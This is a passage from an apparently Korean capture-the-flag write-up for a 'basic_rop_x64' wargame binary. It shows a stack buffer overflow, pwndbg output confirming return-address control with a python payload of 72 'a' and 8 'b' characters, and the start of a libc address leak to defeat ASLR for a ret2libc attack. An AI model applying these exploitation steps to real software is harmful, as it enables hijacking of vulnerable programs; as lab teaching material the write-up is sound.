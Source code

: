 ### 3. 익스플로잇

#### 1) Buffer Overflow

buf의 크기는 0x40 = 64 바이트이지만, 0x400 = 1024 바이트를 입력받을 수 있어 버퍼 오버플로우가 발생한다. buf 가 할당된 64 바이트 뒤에는 8바이트의 SFP와 8바이트의 RET이 위치한다.

그래서, 'A'를 72 바이트 만큼 입력해서 buf, SFP를 더미 값으로 덮고 RET를 원하는 값으로 설정하면 바이너리의 실행 흐름을 조작할 수 있다.

``` gdb
─────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────
 RAX  0x0
 RBX  0x0
 RCX  0x7ffff7e99887 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0x40
 RDI  0x1
 RSI  0x7fffffffc850 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbb\n'
 R8   0x7fffffffc780 ◂— 0x0
 R9   0x0
 R10  0x7ffff7d8c128 ◂— 0xf002200005372 /* 'rS' */
 R11  0x246
 R12  0x7fffffffc9a8 —▸ 0x7fffffffce4e ◂— '/home/jerry/rop/basic_rop_x64'
 R13  0x4007ba (main) ◂— push rbp
 R14  0x0
 R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0x0
 RBP  0x6161616161616161 ('aaaaaaaa')
 RSP  0x7fffffffc898 ◂— 'bbbbbbbb\n'
 RIP  0x400819 (main+95) ◂— ret
──────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────────────
   0x7ffff7e99887 <write+23>    cmp    rax, -0x1000
   0x7ffff7e9988d <write+29>    ja     write+112                <write+112>

   0x7ffff7e9988f <write+31>    ret
    ↓
   0x400813       <main+89>     mov    eax, 0
   0x400818       <main+94>     leave
 ► 0x400819       <main+95>     ret    <0x6262626262626262>
```

pwndbg> run <<< $(python3 -c 'print("a"*72 + "b"*8)')

"a" * 72 + "b" * 8 의 입력을 주니 0x6262626262626262("bbbbbbbb")로 리턴하는 것을 확인할 수 있다.

#### 2) system 함수 주소 계산

ASLR 이 걸려 있기 때문에, system 함수의 주소는 계속 변하게 되지만 ASLR 로 인해 변경되는 주소는 라이브러리가 매핑된 base 주소이고, 이에 따라 라이브러리 내부함수들의 offset 값은 변경되지 않는다.
그래서 base 주소를 구하면 Base 주소 + system 함수의 offset을 통해 system 함수의 주소를 구할 수 있다.

system 함수는 libc.so.6에 정의 되어 있고, 해당 라이브러리에는 read, puts, printf도 정의 되어 있다.
read 함수의 주소 - read 함수의 offset을 하면 Base 주소를 구할 수 있다.
